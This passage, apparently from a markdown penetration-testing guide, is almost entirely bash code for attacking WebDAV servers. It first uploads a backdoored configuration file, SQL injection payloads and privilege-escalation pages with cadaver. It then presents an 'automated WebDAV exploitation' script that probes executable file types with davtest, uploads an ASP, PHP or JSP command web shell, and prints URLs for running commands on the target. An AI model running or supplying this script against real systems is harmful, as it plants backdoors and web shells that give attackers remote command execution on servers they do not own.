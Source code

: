 ```bash

# Upload modified or additional files based on analysis
cadaver http://target/webdav
put modified_config.xml      # Configuration file with backdoor
put sql_injection_payload.txt  # SQL injection test files
put privilege_escalation.asp    # Escalation payloads
```

### **⚙️ Advanced Automation Integration:**

For high-efficiency operations, consider this automation framework:

```bash
#!/bin/bash
# automated_webdav_exploitation.sh - Professional WebDAV exploitation script

TARGET=$1
CREDS=$2
LOGFILE="webdav_exploitation_$(date +%Y%m%d_%H%M%S).log"

echo "[+] Starting automated WebDAV exploitation for $TARGET" | tee $LOGFILE
echo "[+] Timestamp: $(date)" | tee -a $LOGFILE

# Phase 1: Capability Assessment
echo "[+] Phase 1: Assessing WebDAV capabilities" | tee -a $LOGFILE
davtest -auth $CREDS -url http://$TARGET/webdav > davtest_results.txt

# Phase 2: Parse results and identify executable file types
EXEC_TYPES=$(grep "EXEC.*SUCCEED" davtest_results.txt | awk '{print $2}')
echo "[+] Executable file types identified: $EXEC_TYPES" | tee -a $LOGFILE

# Phase 3: Upload appropriate web shell based on findings
for type in $EXEC_TYPES; do
    case $type in
        "asp")
            echo "put /usr/share/webshells/asp/cmd.asp" | cadaver http://$TARGET/webdav
            echo "[+] ASP web shell uploaded successfully" | tee -a $LOGFILE
            echo "[+] Access URL: http://$TARGET/webdav/cmd.asp?cmd=whoami" | tee -a $LOGFILE
            break
            ;;
        "php")
            echo "put /usr/share/webshells/php/cmd.php" | cadaver http://$TARGET/webdav
            echo "[+] PHP web shell uploaded successfully" | tee -a $LOGFILE
            echo "[+] Access URL: http://$TARGET/webdav/cmd.php?cmd=whoami" | tee -a $LOGFILE
            break
            ;;
        "jsp")
            echo "put /usr/share/webshells/jsp/cmd.jsp" | cadaver http://$TARGET/webdav
            echo "[+] JSP web shell uploaded successfully" | tee -a $LOGFILE
            echo "[+] Access URL: http://$TARGET/webdav/cmd.jsp?cmd=whoami" | tee -a $LOGFILE
            break
            ;;
    esac
done

# Phase 4: Verification
echo "[+] Exploitation complete. Manual verification required." | tee -a $LOGFILE
echo "[+] Log file saved as: $LOGFILE" | tee -a $LOGFILE
```

---